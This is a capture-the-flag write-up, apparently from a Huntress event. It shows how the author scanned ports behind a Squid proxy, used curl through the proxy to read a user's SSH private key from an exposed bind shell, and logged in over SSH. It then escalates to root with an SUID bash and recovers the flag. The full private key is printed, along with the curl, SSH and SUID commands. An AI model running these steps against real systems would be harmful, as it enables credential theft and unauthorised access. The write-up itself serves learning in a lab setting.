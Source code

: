 Challenge:

![Challenge](images/1.challenge.PNG)

Visiting the page, we can see it is running squid proxy 3.5.27.

I did some research into fuzzing behind squid proxy and found this article by [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid).

From there, I found a repository for [Spose](https://github.com/aancw/spose).

After a slow process of adding blocks of ports to the script to not upset the rate limiting gods at Huntress, I finally found port 50000 was open.

![Port 50000](images/3.fuzzingbehindproxy.PNG)

Sending a curl to the address reveals that it is performing a directory listing on the other end.

![Proxy](images/4.checkingproxy.PNG)

One of the files that stands out here is the ```.docker-entrypoint.sh``` file.

From this, it looks we have a socat bind shell sitting on the other side on port 50000 and it's running as the user "user".  Let's abuse this knowledge and search for an SSH key.  A quick curl to ```curl -x http://challenge.ctf.games:32611 http://127.0.0.1:50000/home/user/.ssh/id_rsa``` gives us the following private key:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
JauN0ipko/W2sAAAAJa2FsaUBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----
```

I saved the file to a file named id_rsa and changed permissions to 600 to restrict the key or SSH throws a fit.  I then attempted to connect to the machine via SSH through the proxy.  The fine people at [Stack Overflow](https://stackoverflow.com/questions/19161960/connect-with-ssh-through-a-proxy) were very helpful here.

```ssh -i id_rsa user@127.0.0.1 -o "ProxyCommand=connect-proxy -H challenge.ctf.games:32611 %h %p"```

![SSH through proxy](images/7.sshthroughproxy.PNG)

After I connected, I did a quick search for SUID bits on binaries as that's one of the quickest ways to escalate and the challenge stated escalation was required.

```find / -perm -4000 2>/dev/null```

The bit is set on bash, so escalating to root is as simple as ```/bin/bash -p```

From here we check /root and find our flag.

![Flag](flag.PNG)

Flag: ```flag{c9bbd4888086111e9f632d4861c103f1}```